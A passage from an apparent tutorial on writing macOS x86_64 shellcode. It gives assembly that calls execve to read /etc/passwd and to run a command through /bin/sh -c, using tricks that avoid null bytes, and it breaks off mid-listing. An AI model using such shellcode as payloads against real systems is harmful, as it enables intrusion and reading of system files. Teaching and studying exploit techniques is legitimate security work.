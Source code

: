 ```armasm
    syscall
```
{% endtab %}
{% endtabs %}

#### Read with cat

The goal is to execute `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, so the second argument (x1) is an array of params (which in memory these means a stack of the addresses).

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

    lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
    lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"
    
    ; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
    push rsi   ; Add "/etc/passwd" to the stack (arg0)
    push rdi   ; Add "/bin/cat" to the stack (arg1)
    
    ; Set in the 2nd argument of exec the addr of the array
    mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

    xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)
    
    push    59      ; put 59 on the stack (execve syscall)
    pop     rax     ; pop it to RAX
    bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
    syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```

#### Invoke command with sh

```armasm
bits 64
section .text
global _main

_main:
    ; Prepare the arguments for the execve syscall
    sub rsp, 32           ; Create space on the stack

    ; Argument array
    lea rdi, [rel touch_command]        
    push rdi                      ; push &"touch /tmp/lalala"   
    lea rdi, [rel sh_c_option]    
    push rdi                      ; push &"-c"
    lea rdi, [rel sh_path]
    push rdi                      ; push &"/bin/sh"   

    ; execve syscall
    mov rsi, rsp                  ; rsi = pointer to argument array
    xor rdx, rdx                  ; rdx = NULL (no env variables)
    push    59                    ; put 59 on the stack (execve syscall)
    pop     rax                   ; pop it to RAX
```
